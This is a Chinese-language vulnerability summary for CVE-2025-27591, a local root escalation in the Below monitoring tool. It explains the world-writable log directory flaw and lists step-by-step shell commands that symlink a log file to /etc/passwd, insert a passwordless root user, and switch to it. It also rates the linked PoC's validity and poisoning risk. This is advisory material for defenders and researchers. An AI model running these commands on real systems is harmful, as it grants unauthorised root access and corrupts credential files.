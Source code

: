 ## CVE-2025-27591-Below-本地提权

**漏洞编号:** CVE-2025-27591

**漏洞类型:** 本地提权

**影响应用:** Below

**危害等级:** 高危，可导致本地用户提升为root权限

**影响版本:** < 0.9.0

**利用条件:** 需要目标系统运行Below服务，且用户属于sudo组，并配置了NOPASSWD访问/usr/bin/below

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

该漏洞存在于Below v0.8.1版本，由于`/var/log/below/`目录被创建为世界可写，攻击者可以利用符号链接攻击，将`error_<user>.log`链接到`/etc/passwd`等敏感文件。当使用sudo执行`below snapshot`时，会强制将链接的文件权限设置为0666并写入内容，从而允许攻击者修改`/etc/passwd`文件，添加一个具有root权限但无需密码的用户，最终获得root shell。

**有效性：**
提供的PoC代码有效，利用了漏洞描述中的符号链接攻击和不安全的权限设置。

**投毒风险：**
PoC代码本身功能明确，风险较低。风险点在于: 
1. README.md中引用了githubusercontent的图片资源，存在被替换的风险。 
2. exploit.sh脚本执行的命令比较简单，虽然修改了/etc/passwd文件，但是可以很轻易的审计出来。 
综合评估投毒风险较低，约为5%。

**利用方式：**
1.  删除已存在的日志文件：`rm -f /var/log/below/error_$u.log`
2.  创建符号链接：`ln -s /etc/passwd /var/log/below/error_$u.log`，将日志文件链接到`/etc/passwd`。
3.  构造恶意`/etc/passwd`条目：`echo 'pwn::0:0:root:/root:/bin/bash' > /tmp/pwn_entry`，创建一个包含恶意用户的条目。
4.  将恶意条目写入`/etc/passwd`：`cat /tmp/pwn_entry > /var/log/below/error_$u.log`，利用`below`服务写入操作。
5.  执行`below snapshot`：`sudo /usr/bin/below snapshot --begin now 2>/dev/null || true`，触发漏洞利用。
6.  切换用户：`su pwn`，切换到新添加的root用户。

**项目地址:** [rvizx/CVE-2025-27591](https://github.com/rvizx/CVE-2025-27591)

**漏洞详情:** [CVE-2025-27591](https://nvd.nist.gov/vuln/detail/CVE-2025-27591)